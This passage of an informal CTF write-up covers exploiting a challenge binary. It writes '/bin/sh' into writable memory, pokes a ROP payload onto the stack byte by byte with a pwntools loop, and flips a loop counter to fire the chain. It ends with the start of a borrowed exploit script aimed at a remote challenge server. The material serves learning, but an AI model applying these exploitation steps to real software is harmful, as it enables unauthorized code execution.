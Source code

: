 ## 3.3 WRITE Process?
0x52c000 is writable address
`      0x52c000              0x536000 rw-p     a000      12c000 ./chall`
WRITE /BIN/SH IN 0x52c000 + 0x10

FIND A STACK  0xc00007cdb8 + 0x190
`      0xc000000000       0xc000400000 rw-p   400000      0 [anon_c000000]`
WRITE PAYLOAD in 0xc00007cdb8 + 0x190

```python
rop = paylaod
stack = int(adress, 16) + 0x190  # where to start writing

for i, byte in enumerate(rop):
    addr = stack + i
    p.sendlineafter(b'Read or Write? (r/w):', b'w')
    p.sendlineafter(b'Enter memory address (in hex, e.g., 0x12345678):', f"0x{addr:x}".encode())
    p.sendlineafter(b'Enter byte to write (in hex, e.g., 0xAB):', f"0x{byte:02x}".encode())
    warn(f"Writing byte 0x{byte:02x} to 0x{addr:x}")
    p.recvuntil(b'Wrote')
```
SMRG LIKE BELOW
![[Pasted image 20250717033649.png]]

## 3.4 Trigger CHAIN
make the loop to 0x1
```
# Overwrite the loop counter again to exit the loop and trigger the ROP chain
p.sendlineafter(b'Read or Write? (r/w):', b'w')
p.sendlineafter(b'Enter memory address (in hex, e.g., 0x12345678):', adress)
p.sendlineafter(b'Enter byte to write (in hex, e.g., 0xAB):', b'0x1')
```

waiting SROP to be continue 
# 4.0 FLAG 

# 5.0 FINAL SCRIPT 
not from me, i just study from the goat
```python
from pwn import *

context.log_level = 'warning'
context.update(arch='x86_64', os='linux')
context.terminal = ['wt.exe', 'wsl.exe']

# Remote host configuration
HOST = "nc 34.45.81.67 16003"
ADDRESS, PORT = HOST.split()[1:]  # Extract IP and port from the string

BINARY_NAME = "./chall"
binary = context.binary = ELF(BINARY_NAME, checksec=False)

# Choose remote or local process
if args.REMOTE:
    p = remote(ADDRESS, PORT)
else:
    p = process(binary.path)

# --- Step 1: Find the stack address where the loop counter is stored ---
base_start = 0xc000000000
base_end = 0xc0001ff000
```